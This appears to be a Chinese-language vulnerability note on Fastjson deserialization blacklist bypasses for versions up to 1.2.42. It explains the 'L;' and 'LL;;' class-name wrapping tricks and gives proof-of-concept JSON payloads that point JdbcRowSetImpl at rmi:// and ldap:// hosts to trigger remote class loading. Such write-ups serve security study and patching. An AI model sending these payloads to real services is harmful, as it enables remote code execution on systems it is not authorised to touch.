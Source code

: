
## fastjson<=1.2.41

**描述**

第一个 Fastjson 反序列化漏洞爆出后，fastjson在1.2.25版本设置了 autoTypeSupport 属性默认为 false，并且增加了`checkAutoType()` 函数，通过黑白名单的方式来防御 Fastjson 反序列化漏洞，因此后面发现的 Fastjson 反序列化漏洞都是针对黑名单的绕过来实现攻击利用的。 com.sun.rowset.JdbcRowSetImpl 在1.2.25版本被加入了黑名单，fastjson 有个判断条件判断类名是否以”L”开头、以”;”结尾，是的话就提取出其中的类名再加载进来，因此在原类名头部加L，尾部加;即可绕过黑名单的同时加载类。

autoTypeSupport 属性为 true 才能使用。（fastjson>=1.2.25 默认为 false）

fastjson<=1.2.41 版本, 且开启 autoType
```java
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
```

POC
```json
{"@type":"Lcom.sun.rowset.JdbcRowSetImpl;","dataSourceName":"rmi://x.x.x.x:1098/jndi", "autoCommit":true}

{"v41":{"@type":"Lcom.sun.rowset.JdbcRowSetImpl;","dataSourceName":"ldap://0.0.0.0","autoCommit":true}}
```

它与 1.2.24 版本 poc 唯一的不同之处是类名前后分别加上了 "L" 与 ";"

此时 com.sun.rowset.JdbcRowSetImpl 已经进了黑名单, 通过加上特殊字符, 绕过黑名单, 后续代码中会将 "L" 与 ";" 字符自动去除, 导致该恶意类被还原并被反序列化.

官方于 2017/12/12 发布 1.2.42 版本修复该绕过方式. (与黑名单进行比较之前就去除类名中的 "L" 与 ";")

fastjson1.2.42 版本起, fastjson 黑名单做了加密处理

---

## fastjson<=1.2.42

**描述**

fastjson 在1.2.42版本新增了校验机制。

如果输入类名的开头和结尾是L和;就将头和尾去掉，再进行黑名单验证。 还把黑名单的内容进行了加密，防止安全人员进行研究，增加了研究的门槛。 但是有人已在Github上跑出了大部分黑名单包类：https://github.com/LeadroyaL/fastjson-blacklist 绕过方法，在类名外部嵌套2层L;。 原类名：com.sun.rowset.JdbcRowSetImpl 绕过： LLcom.sun.rowset.JdbcRowSetImpl;;

多重套用, 因为后续代码中的 "L" 与 ";" 字符去除判断方法会不断递归, 直至检测不到.

利用条件: fastjson<=1.2.42 版本, 且开启 autoType

```json
{"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;","dataSourceName":"ldap://localhost:1389/Exploit", "autoCommit":true}

{"v42":{"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;","dataSourceName":"ldap://0.0.0.0","autoCommit":true}}

{"@type":"LLcom.sun.rowset.RowSetImpl;;","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}
```
